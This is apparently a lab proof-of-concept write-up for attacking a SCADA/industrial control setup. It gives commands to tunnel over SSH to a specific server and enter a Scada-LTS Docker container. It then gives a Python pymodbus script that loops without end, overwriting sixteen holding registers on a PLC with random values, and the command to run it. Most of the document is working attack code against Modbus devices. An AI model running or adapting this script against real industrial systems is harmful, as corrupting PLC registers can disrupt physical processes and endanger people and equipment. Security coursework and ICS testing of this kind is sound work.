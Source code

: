 # Proof of concept
- Connect to the server with `ssh -D 1080 mcsestudent@145.52.126.50`
- Enter the Scada-LTS container with sudo docker exec -it scadalts /bin/bash
- Install pip and [pymodbus](https://pypi.org/project/pymodbus/)

```py
import random
from pymodbus.client import ModbusTcpClient

PLC_IP = "plc-zone1" # Replace with your PLC or Modbus server IP
REGISTER_START = 1000  # First holding register
NUM_REGISTERS = 16  # 32 bytes = 16 registers (each register = 2 bytes)

client = ModbusTcpClient(PLC_IP)

try:
    while True:
        # Generate 16 random values (each between 0 and 65535)
        values = [random.randint(0, 65535) for _ in range(NUM_REGISTERS)]

        # Write multiple registers at once
        response = client.write_registers(REGISTER_START, values)
        
        print(f"Overschreven registers {REGISTER_START} - {REGISTER_START + NUM_REGISTERS - 1} met waarden {values}")

except KeyboardInterrupt:
    print("Test gestopt.")
finally:
    client.close()
```

- Run the code

```sh
python3 test.py
```

![](img/random_modbus.png)
